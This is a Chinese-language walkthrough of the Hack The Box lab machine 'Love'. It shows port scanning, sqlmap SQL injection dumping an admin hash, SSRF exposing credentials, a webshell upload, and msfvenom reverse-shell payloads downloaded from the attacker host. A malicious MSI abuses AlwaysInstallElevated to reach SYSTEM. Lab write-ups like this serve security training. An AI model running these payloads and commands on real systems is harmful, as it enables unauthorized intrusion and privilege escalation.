# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.239 -oA scans/ports
...
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5000/tcp  open  upnp
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
7680/tcp  open  pando-pub
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
...
root@kali# nmap -sT -sC -sV -O -p80,135,139,443,445,3306,5000,5040,5985,5986,7680 10.10.10.239 -oA scans/details
...
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServer, X11Probe: 
|_    Host '10.10.14.6' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp open  unknown
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-07-20T22:13:09+00:00; +26m00s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp open  pando-pub?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=7/20%Time=60F743B8%P=x86_64-pc-linux-gnu%r(HT
...[snip]...
SF:'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20
SF:server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 25m59s, deviation: 0s, median: 25m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-20T22:12:54
|_  start_date: N/A
...v

```

有一堆端口要枚举：

- 80、443 和 5000 上的 HTTP/HTTPS, 443端口的ssl证书上提示了两个域名， 分别为love.htb以及staging.love.htb
- 135/139/445 上的 SMB/RPC。
- 3306 上的 MySQL。



## 目录FUZZ

```
root@kali# python3 dirsearch.py -e* -t 100 -u http://10.10.10.239   
...
[08:40:04] 301 -  337B  - /ADMIN  ->  http://10.10.10.239/ADMIN/            
[08:40:04] 301 -  337B  - /Admin  ->  http://10.10.10.239/Admin/                                     
[08:40:14] 301 -  337B  - /admin  ->  http://10.10.10.239/admin/            
[08:40:14] 301 -  338B  - /admin.  ->  http://10.10.10.239/admin./          
[08:40:15] 200 -    6KB - /admin/                                           
[08:40:15] 403 -  302B  - /admin/.htaccess                                  
[08:40:15] 200 -    6KB - /admin%20/                                        
[08:40:16] 302 -    0B  - /admin/login.php  ->  index.php                   
[08:40:16] 200 -    6KB - /admin/?/login                                    
[08:40:17] 200 -    6KB - /admin/index.php                                  
[08:40:17] 302 -   16KB - /admin/home.php  ->  index.php                    
[08:40:37] 301 -  348B  - /bower_components  ->  http://10.10.10.239/bower_components/
[08:40:39] 200 -    7KB - /bower_components/                                                                      
[08:40:48] 200 -    1KB - /dist/                                            
[08:40:48] 301 -  336B  - /dist  ->  http://10.10.10.239/dist/                                 
[08:40:57] 302 -    0B  - /home.php  ->  index.php                          
[08:40:58] 301 -  338B  - /images  ->  http://10.10.10.239/images/          
[08:40:58] 200 -    2KB - /images/                                          
[08:40:58] 503 -  402B  - /examples/                                        
[08:40:59] 200 -    4KB - /index.php                                                                     
[08:41:00] 200 -    4KB - /index.pHp                                        
[08:41:01] 200 -    4KB - /index.php/login/                                 
[08:41:01] 200 -    4KB - /index.php.                                       
[08:41:01] 200 -    2KB - /includes/
[08:41:01] 301 -  340B  - /includes  ->  http://10.10.10.239/includes/
[08:41:05] 302 -    0B  - /login.php  ->  index.php                         
[08:41:06] 302 -    0B  - /logout.php  ->  index.php                                            
[08:41:20] 301 -  339B  - /plugins  ->  http://10.10.10.239/plugins/        
[08:41:20] 200 -    2KB - /plugins/      
...
```

发现存在/admin目录和/images目录，且都可以被访问成功；

## WEB服务

### HTTP站 80



### HTTPS站 443



### 5000



# 漏洞检测与利用

## SMB - TCP 445

无法与 SMB 进行访客会话：

```
root@kali# smbmap -H 10.10.10.239
[!] Authentication error on 10.10.10.239
root@kali# smbclient -N -L //10.10.10.239
session setup failed: NT_STATUS_ACCESS_DENIED
```

## MySQL - TCP 3306

不允许从我的 IP 连接到 MySQL：

```
root@kali# mysql -h 10.10.10.239
ERROR 1130 (HY000): Host '10.10.14.6' is not allowed to connect to this MariaDB server
```

## 未知端口 - TCP 5040 和 7680

无法从 5040 或 7680 中获得任何有用的东西：

```
root@kali# curl 10.10.10.239:5040
curl: (7) Failed to connect to 10.10.10.239 port 5040: Connection refused
root@kali# nc 10.10.10.239 5040
(UNKNOWN) [10.10.10.239] 5040 (?) : Connection refused
root@kali# curl 10.10.10.239:7680
curl: (52) Empty reply from server
root@kali# nc 10.10.10.239 7680


sadf
asdf
sadf
^C
```

## 80

80端口是一个叫voting system的web app，kali搜索这个程序的漏洞情况



有个未授权的RCE，试过不行。 还有个授权的RCE，但是我没没有登录凭据。 还有个sql注入，假如存在sql注入，那么我们就可以拿到用户凭据，尝试授权的RCE.

尝试sql注入

```
root@kali# sqlmap -r data --batch -p voter --level 5 --risk 3 
 ...
 ---
Parameter: voter (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: voter=admin' AND (SELECT 4771 FROM (SELECT(SLEEP(5)))YdaT) AND 'Vvvd'='Vvvd&password=123&login=asd
---
...
```



证实用户名voter字段存在基于时间的sql注入,以下payload拿到所有数据库名字

```
root@kali# sqlmap -r data --batch -p voter --level 3 --risk 3 --dbms=mysql --technique=T --dbs
...
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test
[*] votesystem
...
```

同样的方法，一步步测试，用下面payload拿到用户凭据

```
root@kali# sqlmap -r data --batch -p voter --level 3 --risk 3 --dbms=mysql --technique=T -D votesystem -T admin -C username,password --dump

Database: votesystem
Table: admin
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$psrWULJqgpPOl4HUt.ctM.vFMYJjh65EiRFDbIAZsa3z/F3t/8zXW |
+----------+--------------------------------------------------------------+
```

但是用john和hashcat我都无法爆破这个密码.

## 443



在顶部的导航栏中，Home 指向此页面，但 Demo 转到 ，其中有一个采用 url 的表单：/beta.php



如果我启动一个 Python Web 服务器并输入我的 IP 上的 url，它确实会向我的服务器发出请求：

```
root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [12/May/2024 14:35:14] "GET /test HTTP/1.1" 404 -
```

生成的页面包含以下结果：



**我们不是有一个无权限访问的5000端口吗，那让它自己发出访问请求，是否就有权限了？**



弹出了如下页面



这时候我们就拿到密码了账号和密码

账号admin

密码@LoveIsInTheAir!!!!

然后我们去登录


提示找不到这个ID,结合我们之前fuzz得到的目录尝试登录/admin/页面。



成功！

接下来我们可以提供上传文件或者利用msf得到的漏洞利用脚本

## 上传shell

找到上传点



在photo处传入我们的shell或是一句话木马，进入http://love.htb/images查看我们的shell是否上传上去



可以看到，我们的shell已经上传上去了。

**因为每5分钟会执行一次清理程序，将我们的webshell给清理掉，所以我们需要更换一个我们可以长期连接的shell。这里我打算使用msf的shell，于是先用msfvenom生成一个exe的木马。**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.4 lport=4444 -f exe -o shell.exe
```



这里我们需要在kail开启一个http服务，将kail生成的木马下载到目标机中，然后运行此木马。

```
python3 -m http.server 80
Curl http://10.10.14.4/shell.exe -o shell.exe
```



我们的kail成功获取到回弹的shell。





## exploit-db


利用授权的RCE拿shell

```
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)           | php/webapps/49445.py
```

源代码需要编辑相关信息，以及修改路径

```
# --- Edit your settings here ----
IP = "10.10.10.239" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.4" # Reverse shell IP
REV_PORT = "4444" # Reverse port
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```

执行以后收到反弹shell

```
root@kali# nc -lvnp 4444                                                                                               1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.239] 53219
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

# 提权

## 传winpeas到靶机

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.4/winPEASx64.exe','c:\Users\Phoebe\Downloads\winPEASx64.exe')"
```

从远程服务器下载一个名为winPEASx64.exe的文件，并将其保存到本地的c:\Users\Phoebe\Downloads目录下。

## 注册表提权

> 找到alwaysinstallelevated，即当注册表中的alwaysinstallelevated设置为1时，机器上运行任何的msi程序，均会以system权限执行，我们只需生成一个msi的木马程序即可提权。

执行winpeas以后发现HKLM和HKCU的值都是1

```
...snip...
Checking AlwaysInstallElevated
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

Logged users
    LOVEAdministrator
    LOVEPhoebe

Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    Phoebe::LOVE:1122334455667788:20e51a8d32d4b2d85ee8d1f16d856ae2:0101000000000000cdcd241cb38bd701ba60ebea1234fc78000000000800300030000000000000000000000000200000c7feb52a9af533c44a1a9653e8d52b6cd2d9a8def4c45c6cb0ba513521461eb60a00100000000000000000000000000000000000090000000000000000000000
...snip...
```

从得到的信息中可以看到 AlwaysInstallElevated 是开启的，简单的注册表提权了。这种情下，我们可以生成一个包含反向 Shell 的恶意 MSI 文件,意味着我们可以使用注册表提权（Registry Escalation）.

> MSI 文件是用于安装应用程序的软件包文件。这些文件在尝试安装它们的用户权限下运行。Windows 允许这些安装程序以提升的（即 admin）特权运行。

编译一个反弹shell的msi文件

```
root@kali# msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.4 lport=4444 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

传到靶机

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.4/setup.msi','c:\Users\Phoebe\Downloads\setup.msi')"
```

执行msi文件

```
c:\Users\Phoebe\Downloads>.\setup.msi
.\setup.msi
```

收到反弹shell

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.4
set LPORT 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.239:53222 ) at 2022-01-24 02:33:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

已经是SYSTEM权限。

# 总结

> 通过 Nmap 识别出目标服务器运行的服务，从 exploit-db 检索出 CVE 漏洞，利用 SQL 注入成功进入后台控制端页面。上传 webshell 得到一个 reverse shell 立足点。
> 
> 使用 winPEAS 工具收集服务器信息，发现 AlwaysInstallElevated 开启。配合 Metasploit Framework 成功完成权限提升。